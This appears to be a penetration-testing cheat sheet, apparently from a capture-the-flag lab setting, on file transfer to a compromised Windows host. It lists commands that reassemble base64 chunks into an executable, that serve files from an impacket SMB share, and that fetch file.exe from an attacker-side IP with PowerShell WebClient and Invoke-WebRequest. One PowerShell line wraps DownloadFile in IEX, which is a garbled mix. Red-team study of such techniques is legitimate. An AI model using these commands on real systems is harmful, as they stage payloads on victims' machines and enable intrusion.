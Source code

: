 ## Decode and reassemble chunked file

```bash
echo "CHUNK1_BASE64" | base64 -d > chunk_aa
echo "CHUNK2_BASE64" | base64 -d > chunk_ab
cat chunk_* > file.exe
```

## Start SMB server with anonymous access

```bash
impacket-smbserver share . -smb2support
```

## Start SMB server with authentication

```bash
impacket-smbserver share . -smb2support -username user -password pass
```

## Access anonymous SMB share from Windows

```cmd
net use \\10.10.14.5\share
copy \\10.10.14.5\share\file.exe C:\temp\
```

## Access authenticated SMB share from Windows

```cmd
net use \\10.10.14.5\share /user:user pass
copy \\10.10.14.5\share\file.exe C:\temp\
```

## Download file using PowerShell WebClient

```powershell
IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.5/file.exe','C:\temp\file.exe')
```

## Download file using PowerShell Invoke-WebRequest

```powershell
Invoke-WebRequest -Uri http://10.10.14.5/file.exe -OutFile C:\temp\file.exe
```

## Download file using PowerShell one-liner

```powershell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.5/file.exe','file.exe')"
```
